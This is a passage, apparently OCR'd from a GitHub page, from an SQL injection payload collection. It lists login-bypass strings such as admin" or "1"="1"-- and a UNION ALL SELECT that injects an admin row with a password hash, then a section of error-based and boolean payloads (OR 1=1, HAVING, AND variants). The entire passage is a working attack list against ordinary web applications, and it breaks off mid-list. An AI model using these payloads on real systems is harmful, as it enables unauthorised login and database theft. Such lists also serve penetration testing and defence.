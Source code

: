      admin" --
     admin" #
     admin"/*
     admin" or "1"="1
     admin" or "1"="1"--
     admin" or "1"="1"#
     admin" or "1"="1"/*
     admin"or 1=1 or ""="
     admin" or 1=1
     admin" or 1=1--
     admin" or 1=1#
     admin" or 1=1/*
     admin") or ("1"="1
     admin") or ("1"="1"--
     admin") or ("1"="1"#
     admin") or ("1"="1"/*
     admin") or "1"="1
     admin") or "1"="1"--
     admin") or "1"="1"#
     admin") or "1"="1"/*
     1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055

## 2- Error Based Payloads

           OR 1=1
           OR 1=0
           OR x=x
           OR x=y
           OR 1=1#
           OR 1=0#
           OR x=x#
           OR x=y#
           OR 1=1-- 
           OR 1=0-- 
           OR x=x-- 
           OR x=y-- 
           OR 3409=3409 AND ('pytW' LIKE 'pytW
           OR 3409=3409 AND ('pytW' LIKE 'pytY
           HAVING 1=1
           HAVING 1=0
           HAVING 1=1#
           HAVING 1=0#
           HAVING 1=1-- 
           HAVING 1=0-- 
           AND 1=1
           AND 1=0
           AND 1=1-- 
           AND 1=0-- 
           AND 1=1#
           AND 1=0#
           AND 1=1 AND '%'='
           AND 1=0 AND '%'='
           AND 1083=1083 AND (1427=1427
           AND 7506=9091 AND (5913=5913
           AND 1083=1083 AND ('1427=1427
           AND 7506=9091 AND ('5913=5913
           AND 7300=7300 AND 'pKlZ'='pKlZ
           AND 7300=7300 AND 'pKlZ'='pKlY
           AND 7300=7300 AND ('pKlZ'='pKlZ
           AND 7300=7300 AND ('pKlZ'='pKlY
           AS INJECTX WHERE 1=1 AND 1=1
           AS INJECTX WHERE 1=1 AND 1=0
           AS INJECTX WHERE 1=1 AND 1=1#